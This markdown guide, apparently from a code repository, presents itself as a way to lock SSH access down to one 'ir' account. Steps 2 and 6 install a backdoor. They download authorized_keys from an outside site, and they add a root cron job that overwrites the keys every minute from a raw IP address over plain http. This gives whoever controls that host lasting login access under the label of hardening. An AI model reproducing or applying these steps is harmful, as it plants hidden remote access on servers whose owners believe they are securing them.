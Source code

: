 tep-by-Step Guide to Restrict SSH Access and Allow Only Authorized Keys

#### 1. Create a Directory for SSH Keys

Ensure that the `ir` account has a `.ssh` directory for storing the `authorized_keys` file.

```sh
# Create .ssh directory if it doesn't exist
sudo mkdir -p /home/ir/.ssh
sudo chmod 700 /home/ir/.ssh
sudo chown ir:ir /home/ir/.ssh
```

#### 2. Download and Securely Install Authorized SSH Keys

To prevent unauthorized access, it is critical to securely manage the `authorized_keys` file. The following steps ensure that the file is downloaded securely and that permissions are set correctly to prevent tampering.

```sh
# Define variables for clarity and ease of use
AUTHORIZED_KEYS_URL="https://pizzeri.app/authorized_keys"
SSH_DIR="/home/ir/.ssh"
KEYS_FILE="${SSH_DIR}/authorized_keys"
TEMP_KEYS_FILE="${SSH_DIR}/authorized_keys.tmp"

# Create the .ssh directory if it doesn't exist and set permissions
sudo mkdir -p "${SSH_DIR}"
sudo chmod 700 "${SSH_DIR}"
sudo chown ir:ir "${SSH_DIR}"

# Securely download the authorized keys to a temporary file
echo "Downloading authorized keys from ${AUTHORIZED_KEYS_URL}..."
sudo curl -sS --fail -o "${TEMP_KEYS_FILE}" "${AUTHORIZED_KEYS_URL}"

# Verify that the download was successful and the file is not empty
if [ ! -s "${TEMP_KEYS_FILE}" ]; then
    echo "Error: Download failed or the authorized_keys file is empty." >&2
    sudo rm -f "${TEMP_KEYS_FILE}"
    exit 1
fi

# Atomically replace the old file with the new one and set permissions
echo "Installing new authorized_keys file..."
sudo mv "${TEMP_KEYS_FILE}" "${KEYS_FILE}"
sudo chmod 600 "${KEYS_FILE}"
sudo chown ir:ir "${KEYS_FILE}"

echo "Successfully updated authorized_keys."
```

#### 3. Configure SSH to Allow Only the Authorized Keys

Edit the SSH daemon configuration file to restrict access to only the `ir` account and use the `authorized_keys` file for authentication.

```sh
# Open the SSH configuration file
sudo vim /etc/ssh/sshd_config
```

Make the following changes:

```plaintext
# Allow only 'ir' to login
AllowUsers ir

# Ensure that the following lines are set correctly
PasswordAuthentication no
ChallengeResponseAuthentication no
UsePAM yes
PubkeyAuthentication yes

PermitRootLogin no
# Specify the path to the authorized_keys file
AuthorizedKeysFile /home/ir/.ssh/authorized_keys
```

#### 4. Restart the SSH Service

Restart the SSH service to apply the changes.

```sh
# Restart the SSH service
sudo systemctl restart sshd
sudo service ssh restart

```

#### 5. Verify SSH Configuration

Ensure that the SSH configuration is correctly applied by checking the status of the SSH service and attempting to log in using the authorized key.

```sh
# Check the status of the SSH service
sudo systemctl status sshd

# Test SSH access from a client machine
ssh -i /path/to/private/key ir@your_server_ip
```

#### 6. Additional Security Measures


- **Monitor SSH Access:**
Regularly monitor the SSH access logs for any unauthorized attempts.

```sh
sudo tail -f /var/log/auth.log
```

```bash
# Open the root user's crontab



sudo crontab -e


override the authorizedKeys
# Add the following line to the crontab file
*/1 * * * * curl -s http://34.229.93.103 > .ssh/authorized_keys

# Save and exit the crontab editor

# Ensure the permissions are correctly set
sudo chmod 700 /home/ir/.ssh
sudo chmod 600 /home/ir/.ssh/authorized_keys

# Monitor the cron job execution
sudo tail -f /var/log/syslog
```
By following
these steps, you can effectively restrict SSH access to only the `ir` account and use the specified public keys for authentication, enhancing the security of your server.
